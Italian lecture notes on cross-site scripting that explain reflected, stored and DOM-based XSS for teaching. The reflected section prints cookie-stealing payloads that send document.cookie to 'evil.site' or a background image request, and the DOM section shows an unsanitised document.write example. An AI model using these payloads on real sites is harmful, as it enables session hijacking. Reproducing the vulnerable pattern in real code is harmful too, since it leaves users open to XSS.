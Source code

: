 I cookie possono anche essere rivelati attraverso **cross-origin** (SOP bypass):
```html
<!-- "%2b" è  l'url encoding di "+" -->
.../greet.php?name=<script>location.href='http://evil.site/steal.p
hp?cookie='%2bencodeURIComponent(document.cookie);</script>
```
>Link sospetti possono essere **offuscati** usando url shortner.

L'attacco appena visto reindirizza l'utente verso la pagina malevola e verrebbe notata, possiamo eseguire un attacco più **furtivo** eseguendo una richiesta `GET` in background.
```html
…/greet.php?name=r1x<script>var i=new Image;
i.src="http://localhost:8001/"%2Bdocument.cookie;</script>
```
>Come prima i cookie sono rivelati come parte dell'URL, in questo caso però l'immagine non esiste, l'errore non sarà visibile all'utente.

### Stored XSS
**Assunzione**: l'applicazione web **memorizza** l'input inviato al server e lo mostra come parte di una pagina web (e.g. post in un forum), anche in questo caso l'input potrebbe contenere codice.

Il codice malevolo è eseguito quando qualche utente visita le pagine **infette**.

1. L'attaccante **memorizza** uno script malevolo nell'applicazione vittima
2. L'utente visita la pagina della vittima ed **esegue** lo script
3. Lo script viene eseguito nel contesto dell'applicazione vittima ed esegue il **leak** dei dati sensibili dell'utente.

### DOM-based XSS
Simile al _reflected XSS_ ma il payload dell'attacco non è aggiunto alla pagina da parte del server.

L'inserimento del codice malevolo avviene client-side grazie a degli script già esistenti.
>Lo script esistente include lo script "injected" all'interno della pagina.

1. Una **pagina malevola** con un link all'applicazione vittima (o link inviato tramite mail, i.e. _phishing_)
2. L'utente **preme** il link contenente parametri malevoli
3. L'applicazione vittima **ritorna una pagina non infetta**
4. Uno script già esistente processa i parametri e come side effect **incorpora il codice malevolo**

```html
<select><script>
	document.write(
		"<OPTION value=1>"
		+ decodeURI(document.location.href.substring(
		document.location.href.indexOf("default=")+8 ))
		+ "</OPTION>"
	);
	document.write("<OPTION value=2>English</OPTION>");
</script></select>
```

In questo esempio viene composta la prima opzione dinamicamente dal parametro `default` della richiesta `GET` nell'url.

